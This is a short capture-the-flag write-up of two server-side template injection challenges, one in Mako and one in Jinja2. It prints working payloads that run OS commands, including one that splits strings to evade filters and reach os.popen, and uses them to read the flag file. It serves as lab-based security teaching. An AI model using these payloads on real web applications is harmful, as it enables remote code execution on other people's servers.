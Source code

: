 on using a payload from payloadallthings for mako (A python template engine)
```
${self.module.cache.util.os.system("id")}
```
It only shows `0`, which is the error code that `os.system` returns. Using `os.system` we will not be able to read the flag directly, but we have code execution, so we can copy the `/flag.txt` into a public directory:

```
${self.module.cache.util.os.system("cp /flag.txt /app/application/static/css")}  
```
further access the flag by using `$ curl 161.35.174.99:30548/static/css/flag.txt`

### Lab (pentathon '25)

Capturing the request and sending it, we can see that the `name` field is reflected back to us. Before trying `sqli` we input characters like `<>` to see if we can do `xss` payload. We also try `{{}}` to check for `ssti` (template injection).
Sending `{{7*7}}` we get back `49`. So the site is vulnerable to `SSTI`.

> After the server blocking some request and either giving us error or not allowed we get some progress using `{{request}}`.

Payload used for SSTI 
```
name={% set b = request.application[['__glo','bals__'] | join][['__buil','tins__'] | join] %}
{% set i = b[['__impo','rt__'] | join] %}
{% set o = i(['o','s'] | join) %}
{% set p = o[['po','pen'] | join] %}
{% set cmd = ['c','a','t',' ','fl','ag','.txt'] | join %}
{{p(cmd).read()}}
&email=test%40mail.com&message=Test
```




### References
https://app.hackthebox.com/challenges/Spookifier - Py SSTI 

Jinja2 - [Server Side Template Injection with Jinja2 for you now](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)